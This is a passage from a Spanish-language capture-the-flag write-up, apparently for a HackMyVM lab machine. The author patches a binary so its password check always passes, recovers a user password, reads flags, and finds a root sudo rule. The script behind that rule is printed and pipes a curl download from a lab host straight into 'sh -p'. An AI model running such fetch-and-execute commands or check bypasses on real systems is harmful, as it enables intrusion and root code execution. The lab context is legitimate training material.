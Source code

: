 Escribimos lo mismo que puse para que no haga la validacion si no que siempre piense que esta bien y por ultimo salimos con la siguiente combinacion
**q**  -> **q** -> **enter**

Ahora corremos el programa y nos da la contrasena

```
❯ chmod +x test_4_green 
                                                        
❯ ./test_4_green                         
Guess the number im thinking: 213
Correct!! Here is the pass:
***********as
purpleaslilas 
```

Ahora cambiamos de usuario y obtenemos la primera flag

```
purple@color:~$ cat user.txt
***********:)

purple@color:~$ cat for_purple_only.txt 
As the highest level user I allow you to use the supreme ddos attack script.

purple@color:~$ sudo -l
Matching Defaults entries for purple on color:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User purple may run the following commands on color:
    (root) NOPASSWD: /attack_dir/ddos.sh
```

Vemos de que va ese ddos

```
purple@color:~$ sudo /attack_dir/ddos.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:--  0:00:04 --:--:--     0curl: (6) Could not resolve host: masterddos.hmv

purple@color:~$ cat /attack_dir/ddos.sh 
#!/bin/bash
/usr/bin/curl http://masterddos.hmv/attack.sh | /usr/bin/sh -p
```

Bueno intente escalar privilegios de todos los modos pero no me funciono.

Supongo que nos quedamos como usuarios por ahora jajaja

